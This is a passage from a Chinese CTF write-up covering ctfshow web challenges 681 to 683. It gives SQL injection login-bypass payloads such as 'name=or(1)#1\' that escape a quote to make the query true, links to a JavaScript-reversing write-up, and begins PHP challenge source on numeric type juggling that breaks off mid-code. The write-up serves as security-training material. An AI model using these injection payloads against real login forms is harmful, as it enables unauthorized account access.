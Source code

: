 访问secret_you_never_know，下载打开即可



## 681-\\'

bp抓包

![](https://s2.loli.net/2022/01/05/WnFolyzp2UcaD3G.png)

```
select count(*) from ctfshow_users where username = '' or nickname = ''
```

fuzz一下，过滤了空格，有长度限制11，

> 原题的话是单引号`'`被转换为`\`，那么构造最后一个字符为单引号，那就能将右边的单引号转义了，那么：
>
> ```
> name=or(1)%231%27
> ```
>
> 此时这个 session 就已经被标记为登陆成功 , 而且应该是管理员
> 那么我们将这个 session 设置到浏览器刷新试试

而本题则是将单引号置换为空~，传入单引号肯定不行了，但思路是一样的，利用\转义单引号并使得查询结果为真

直接传一个：`\`

```
name=or(1)#1\
```

![](https://s2.loli.net/2022/01/05/CVXvnk8ptqgHEW7.png)

![](https://s2.loli.net/2022/01/05/OAhpRCij1wXgmEB.png)



## (x)682-前端js调试

很头疼的前端js逆向=-=

[HCTF2017 部分 Web 出题思路详解 (seebug.org)](https://paper.seebug.org/452/)



## 683-(int)'6e6'=6 

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-09-24 17:34:28
# @Last Modified by:   h1xa
# @Last Modified time: 2021-09-24 20:32:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

   error_reporting(0);
   include "flag.php";
   if(isset($_GET['秀'])){
       if(!is_numeric($_GET['秀'])){
          die('必须是数字');
       }else if($_GET['秀'] < 60 * 60 * 24 * 30 * 2){
```